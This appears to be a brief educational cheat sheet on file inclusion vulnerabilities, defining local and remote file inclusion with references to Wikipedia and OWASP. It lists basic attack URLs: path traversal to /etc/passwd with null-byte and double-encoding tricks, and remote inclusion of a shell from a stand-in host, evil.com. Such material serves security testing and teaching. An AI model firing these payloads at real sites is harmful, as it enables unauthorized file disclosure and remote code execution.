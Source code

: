 File Inclusion
------------------------------------------------------------
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Can lead to:
------------------------------------------------------------
-Code execution on the web server.       
-Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS).      
-Denial of Service (DoS).      
-Sensitive Information Disclosure.  


Types:
------------------------------------------------------------
1) Local File Inclusion(LFI) - is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. 


2) Remote File Inclusion(RFI) - occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an HTTP or FTP URI as a user-supplied parameter to the web application.

Basic payloads LFI:
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

Basic payloads RFI:
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

References
------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)  
[Owasp](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
